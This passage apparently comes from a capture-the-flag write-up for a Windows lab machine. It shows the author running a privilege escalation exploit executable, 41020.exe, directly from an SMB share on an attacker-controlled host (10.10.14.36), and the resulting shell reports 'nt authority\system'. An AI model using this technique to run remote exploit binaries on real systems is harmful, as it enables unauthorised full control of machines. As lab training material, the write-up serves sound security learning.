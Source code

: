 ```
```

Now within the Windows host I ran this command

```
\\10.10.14.36\share\41020.exe
```

```
C:\Users\kostas\Desktop>\\10.10.14.36\share\41020.exe
\\10.10.14.36\share\41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system
```

And we have a `SYSTEM` shell! 

